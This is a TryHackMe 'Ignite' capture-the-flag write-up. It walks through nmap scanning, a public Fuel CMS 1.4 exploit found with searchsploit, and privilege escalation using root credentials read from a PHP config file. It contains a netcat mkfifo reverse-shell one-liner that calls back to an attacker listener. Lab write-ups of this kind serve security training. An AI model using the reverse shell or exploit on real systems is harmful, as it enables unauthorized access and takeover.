# TryHackMe: Ignite CTF Writeup

## Introduction

This CTF room is about Ignite where new start up is having issues with their web server and they want us to root it.  Its very straightforward and challenge is rated easy. I will cover on how I did the enumeration, exploitation and privilege escalation. Lets get started.

## Scanning with Nmap

Lets get scanning with nmap to find which ports are open.

Syntax - nmap -sV -sC -p- -T4 IP



Theres only 1 port open and thats port 80. There are some mentions such as robots.txt with disallowed entry, /fuel directory and title page for welcome to fuel CMS.

## Web Enumeration

Navigating to the website we get the welcome page for Fuel CMS along with admin credentials for logging in. Maybe we will find something useful.




After checking the account thoroughly, there really wasn't anything important or just anything useful, this leads to nowhere.

However what we can do is since there is version number of CMS, this maybe a clue to find a possible exploit for it. We can use searchsploit to do just that.

## Exploitation

syntax- searchsploit software 1.4 



and yes it is there. Lets try out the exploit and see if it works. 

Lets download it first

syntax- searchsploit -m exploit/path



Now that we have downloaded it, its time to execute the exploit and see if we get the access.

syntax- python3 exploit.py -u http://IP

After exploiting we have now got the access.



## Reverse Shell 

However its difficult to navigate here since i can't spawn the shell, what i can do is use reverse shell and create a listener in my local machine.

Syntax- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP port >/tmp/f

and now we can spawn the shell and start navigating to find user.txt which is the first task question.

Syntax: python3 -c 'import pty; pty.spawn("/bin/bash")'



we can find the user flag in home directory, Which answers the first task.



Now we need to answer last task and that is root.txt. 

## Privilege Escalation

I have looked around the files but nothing useful so far, it became very time consuming process.

However i was wondering earlier, after getting connection through reverse shell, it was already in specific directory that relates with what was mentioned in the website. That was the first clue and another thing is the fuel directory which is mentioned in the webpage regarding credentials such as username and password in .php.



So i went to the directory that had the .php we need to access to find out if there are any credentials and will it be useful for escalation.

and there is indeed the credentials with root mentioned, however now its time to confirm if we can get the access to root.



Syntax- su user

and yes we did, which means now we can find the root.txt, answering the last task.



## Conclusion

This CTF was good test on web enumeration, searchsploit for relevant exploit to gain access to target and identifying how to escalate privileges even without direct ssh access. This was fun CTF and very straightforward even though the process can be exhausting when navigating but more experience through error helps in narrowing down to what can be found and less time consuming process for the next time.